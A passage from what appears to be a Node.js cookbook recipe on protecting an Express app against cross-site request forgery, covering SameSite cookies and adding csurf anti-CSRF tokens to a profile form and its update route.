to be submitted cross-site - this may be important in widget
or advertising situations (such as a facebook like button). 

If this isn't a requirement `strict` is a better option, since it precludes
exploitation of poor or accidental route handling where a `GET` request
modifies server state.

When a (modern) browser observes the directive we essentially opt-in to
an enforced same origin policy for cookies.   

### There's more

Our app is not yet secure in old browsers, we need an alternative
strategy. 

#### Securing Older Browsers

Not all browsers support the SameSite cookie directive, so in older
browsers we need an alternative strategy. The best fallback strategy
is to create cryptographically secure anti-csrf tokens which are 
stored in a user session and mirrored back from the browser either in
a request header, body or querystring. Since an attacker needs access
to the session in order to steal the token, and access to the token in
order to execute privileged actions this reduces the attack vector 
significantly.

Let's copy the `fixed-app` folder from the main recipe to
a folder named `secured-app`, then install the `csurf` module
in `secured-app`:

```sh
$ cp -fr fixed-app secured-app
$ cd secured-app
$ npm install --save csurf
```

We'll require `csurf` and instantiate an instance of it, the
top of our `index.js` file should look like so:

```js
const express = require('express')
const bodyParser = require('body-parser')
const session = require('express-session')
const he = require('he')
const csurf = require('csurf')
const app = express()
const csrf = csurf()
```

Our `/profile` route should be altered like so:

```js
app.get('/profile', csrf, (req, res) => {
  if (!req.session.user) return res.redirect('/')
  const {prev = '', handoverToken = '', lang = 'en'} = req.query
  pretendDbQuery(req.session.user, (err, {sc, ac}) => {
    if (err) {
      res.sendStatus(500)
      return
    }
    sc = he.encode(sc)
    ac = he.encode(ac)
    res.send(`
      <h1>Employee Payment Profile</h1>
      <form method="POST" action=/update>
        <input type=hidden name=_csrf value="${req.csrfToken()}">
        <label> Sort Code <input name=sc value="${sc}"> </label> <br>
        <label> Account # <input name=ac value="${ac}"> </label> <br>
        <input type=submit>
      </form>
    `)
  })
})
```

We've inserted the `csrf` route protection middleware as the second
argument, which gives the ability to call `req.csrfToken` in our
HTML template. We generate the token with `req.csrfToken` and place
it as the `value` input of a hidden field named `_csrf` (the
`csurf` middleware looks in several places for the token, the 
POST body `_csrf` namespace being one of them).

Finally we include the `csrf` route protection middleware as
the second argument of our `/update` post route as well:

```js
app.post('/update', csrf, (req, res) => {
```

The `csrf` middleware detects that the request is mutable (e.g. it's a POST
method request) and checks the body of the POST request for a `_csrf`
field which it checks against a token stored within the users session.

Our server is now fully secured against CSRF attacks in modern and legacy
browsers alike. 

To be clear however, a server with an XSS vulnerability would still be
susceptable to CSRF attacks, because an XSS exploit could be used to steal
the CSRF token. The SameSite cookie directive does not have that problem.

### See also

* *Receiving POST Data* in **Chapter 5 Wielding Web Protocols**
* *Creating an Express Web App* in **Chapter 7 Working with Web Frameworks**
* *Implementing Authentication* in **Chapter 7 Working with Web Frameworks**


